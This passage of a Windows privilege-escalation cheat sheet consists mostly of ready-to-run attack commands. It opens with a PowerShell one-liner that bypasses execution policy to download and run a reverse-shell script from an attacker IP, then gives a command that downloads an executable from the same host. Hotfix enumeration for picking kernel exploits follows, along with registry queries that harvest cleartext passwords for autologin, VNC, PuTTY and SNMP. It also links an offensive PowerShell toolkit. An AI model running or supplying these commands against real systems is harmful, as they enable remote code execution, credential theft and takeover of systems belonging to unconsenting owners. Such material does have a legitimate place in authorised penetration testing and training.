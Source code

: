 ```
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.25/rev.ps1')"
```

Download a file (within Powershell)

```
(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.25/jp.exe", "jp.exe")
```

Read a file

```
powershell (Get-Content filename)
```

[Nishang - Offensive PowerShell for red team, penetration testing and offensive security](https://github.com/samratashok/nishang)

### Kernel exploits


```
# Look for hotfixes
systeminfo

wmic qfe get Caption,Description,HotFixID,InstalledOn

# Search for exploits
site:exploit-db.com windows XX XX
```


### Cleartext passwords

```
# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# SNMP Parameters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```


### Reconfigure service parameters
